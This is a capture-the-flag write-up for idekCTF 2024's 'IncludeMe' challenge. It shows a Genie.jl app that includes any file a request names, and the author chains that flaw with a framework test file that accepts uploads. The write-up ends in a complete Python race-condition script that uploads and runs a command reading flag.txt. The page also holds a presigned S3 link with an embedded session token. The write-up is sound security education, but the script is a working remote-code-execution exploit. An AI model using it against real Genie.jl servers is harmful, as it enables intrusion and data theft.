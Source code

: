 ```yaml
---
id: 476adce3-c249-4a2d-ad88-ea823a5c99a1
title: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
created_time: 2024-08-19T00:24:00.000Z
last_edited_time: 2024-09-28T00:27:00.000Z
cover_image: ./imgs/images_CYPDSAFZ
icon_emoji: 🏎️
categories: []
verification:
  state: unverified
  verified_by: null
  date: null
page: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/images_CYPDSAFZ

---
```


In idekCTF 2024, I played with the **P1G SEKAI** team and secured 1st place out of 1,068 teams! I solved a challenge named "Included me" and got the first blood on that challenge.

# Challenge Description

another minimalist, frontend-less, challenge because i'm bad at writing server-side challenges

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/709a0b78-7ae2-4171-930b-e98c753c8621/includeme.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466Z33C4JKJ%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T123139Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDQaCXVzLXdlc3QtMiJGMEQCIGw5W0KTRIu5QSSH9nDCqERndvSVYNqVvInPl2LNb%2B8OAiAwnLM22q0%2F19WeT0CvEp1ecdtulcC56VJFjBQsaRnjqyqIBAjt%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F8BEAAaDDYzNzQyMzE4MzgwNSIM7ZDvdVPzJ5iEF2z2KtwDRzZjKpYA9092ijcEJBjteJ%2FyKynKs85MvWi026o28ibH2hRJDd55Iq69QT%2BKrQTzwKiTN0oPGSolFe8w8uCokiZ6NFBSWZg4VD2uQt2iJL%2Fek4H5qEnhSFxQgWGIwSw6rU%2F8zWheWpCBM%2FHmTZ9Gwr3Ps1%2Bj8AuNHJENJkuGtJsNmXX5sMDwbM24qakZdcDdSS7Gf1GMOFBwBrXJQo%2B2svZ9PjedGzZdj4tr%2F5rZQXC%2B0DbKikdbpOazfvFpAVowdsDY9TvTeo4fbxRR3i6ymob7gpblq91EzVTmxUuMOvRewPQAWCll4IQs7sg3svJ3g3dPJBgD%2BZTmO96aqC8FoISKjhJQBMJ0IcWXKrN%2BB2t4SQVlCOpaz8OIWdGv8LQqiSrk97QTythkYgERJEIAImSbwiHujNNvmy2ZtahD7HZPZR7aNOEBjkax7%2BnAu5VW8TQvhEKaD4Aa%2B82kd4TAQTuUIZZZpnpaNcg90IvkukoettPBc7clq%2B3uu%2Fp0Ty5fQza7gtekJAbEo6SliE4P42Il0Nu%2BAR2fyS%2Fx7f3YWROXlaj1wLu1safiJwtV4gnx1NVwrQQht4XTWWiiTXkg6i61mglunv1n4rDipE3UPVXzWcygHMQ6pD83xmIwhL%2FBwQY6pgEGaVmStGc1I2z9VIdPzcqFRMBfjwpZgC9jXIoN6QbZnuIgJCS3axh9NVJlWsUDNAJqKd0ygfbvPkyuMpMycqUm72RvjIDsUdbChuAxpBwmgYXtn7pLLa7kulUcvuoD1ijhve6g5YlpaObHMhaYEQcD0zYqG%2FFTqqQIhmSxPmQe9ESCc7WidfFGsqDZJu2t7VDcvbxsU5icXR1Wi0eQXfm32cUuNE5Y\&X-Amz-Signature=1f03b1959479ff1be3e08f34cf8848c29bf602426eefe7ae509340a34497b5fd\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# How to Solve

The goal of this challenge was to achieve Remote Code Execution (RCE) and capture the flag. The program was vulnerable to arbitrary file inclusion here:

```julia
using Genie, Genie.Requests, Pkg

Pkg.activate(".")

index() = include(params(:page, "example.jl"))

route("/", index)

up(1337, "0.0.0.0", async = false)
```

We could include arbitrary files into the application, altering its flow. I discovered that we could include a test case from this Genie.jl repository:

> [![image](./imgs/b322ed80-bc5a-11e9-807a-9b53749c40ef_ftYlQyUC) **Genie.jl/test/fileuploads/test.jl at 509886d61a75d74bcbd45db1f77230abd4cd11a8 · GenieFramework/Genie.jl**](https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14)\
> 🧞The highly productive Julia web framework. Contribute to GenieFramework/Genie.jl development by creating an account on GitHub.\
> <https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14>

This test case essentially exposes a file upload vulnerability, allowing us to upload arbitrary files into Genie. However, after including that file, the program’s flow would change, preventing us from doing it a second time… or would it? The solution is yes, we can include it again if we’re fast enough to include `app.jl` right after uploading the file. This requires a race condition. Here's my solution script:

```python
import httpx
import asyncio

URL = "http://localhost:1337"
# URL = "https://includeme-295e03fffda9795f.instancer.idek.team/"

class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.AsyncClient(base_url=url, timeout=100)
    def page(self, page):
        return self.c.get("/", params={"page": page})
    def upload(self, fileupload):
        return self.c.post("/", files={"fileupload": ("x.jl", fileupload)})
class API(BaseAPI):
    ...

async def main():
    api = API()
    ress = []
    res1 = api.page("../home/ctf/.julia/packages/Genie/yQwwj/test/fileuploads/test.jl")
    ress.append(res1)
    for i in range(10):
        res2 = api.upload("""
read(`cat flag.txt`, String)
""")
        for j in range(10):
            res3 = api.page("app.jl")
            ress.append(res3)
        ress.extend([res1, res2])
    ress = await asyncio.gather(*ress)
    for res in ress:
        print(res.text)


if __name__ == "__main__":
    asyncio.run(main())

```

Next, visit <http://localhost:1337/?page=x.jl> to retrieve the flag.

![](./imgs/image_2FRbeU5K.png)
